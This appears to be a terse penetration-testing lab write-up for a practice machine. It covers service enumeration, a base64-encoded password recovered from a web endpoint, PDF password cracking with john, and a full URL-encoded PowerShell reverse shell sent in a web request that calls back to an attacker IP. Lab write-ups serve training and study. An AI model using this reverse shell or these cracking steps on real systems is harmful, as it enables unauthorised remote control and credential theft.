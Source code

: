 #Pwned! 
```IP
192.168.242.99
```
# Enumeration
## FTP
FileZilla Server 0.9.60 beta
brute not working
## SMB
guest and blank not working
## RPC
blank nothing
## SNMP
snmpwalk nothing
## HTTP 80
doesnt work apparently

## HTTP 8089
ffuf big.txt nothing

## HTTP 33333
ffuf big.txt nothing
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241209164529.png?raw=true)

# Exploitation

http 8089 request/response
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241209165628.png?raw=true)

IP harcoded. Lets try the same request with target IP
```
curl -i 192.168.164.99:33333/list-running-procs -v
```
```
curl -i 192.168.164.99:33333/list-running-procs -v -X POST
```
```
curl -i 192.168.164.99:33333/list-running-procs -v -X POST -H 'Content-Length: 0'
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210094000.png?raw=true)

```
echo 'Tm93aXNlU2xvb3BUaGVvcnkxMzkK' | base64 -d
```
```
NowiseSloopTheory139
```
```
ariah
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210094421.png?raw=true)
# PrivEsc

## Manual
C:\Users\All Users\Microsoft\UEV\InboxTemplates\RoamingCredentialSettings.xml
cmdkey /list
%SystemRoot%\system32\shell32.dll

we see a ftp directory in / so we get via FTP
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210101346.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210101359.png?raw=true)
```
pdf2john Infrastructure.pdf > pdf.hash
```
```
john --wordlist=/usr/share/wordlists/rockyou.txt pdf.hash
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210101956.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210101942.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210103111.png?raw=true)
We now execute a reverse shell:
```
http://192.168.164.99/?$LHOST%20=%20%22192.168.45.189%22;%20$LPORT%20=%209001;%20$TCPClient%20=%20New-Object%20Net.Sockets.TCPClient($LHOST,%20$LPORT);%20$NetworkStream%20=%20$TCPClient.GetStream();%20$StreamReader%20=%20New-Object%20IO.StreamReader($NetworkStream);%20$StreamWriter%20=%20New-Object%20IO.StreamWriter($NetworkStream);%20$StreamWriter.AutoFlush%20=%20$true;%20$Buffer%20=%20New-Object%20System.Byte[]%201024;%20while%20($TCPClient.Connected)%20{%20while%20($NetworkStream.DataAvailable)%20{%20$RawData%20=%20$NetworkStream.Read($Buffer,%200,%20$Buffer.Length);%20$Code%20=%20([text.encoding]::UTF8).GetString($Buffer,%200,%20$RawData%20-1)%20};%20if%20($TCPClient.Connected%20-and%20$Code.Length%20-gt%201)%20{%20$Output%20=%20try%20{%20Invoke-Expression%20($Code)%202%3E&1%20}%20catch%20{%20$_%20};%20$StreamWriter.Write(%22$Output`n%22);%20$Code%20=%20$null%20}%20};%20$TCPClient.Close();%20$NetworkStream.Close();%20$StreamReader.Close();%20$StreamWriter.Close()
```


![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210104644.png?raw=true)
## Automated

### Peass
### Mimikatz

# Lateral Movement

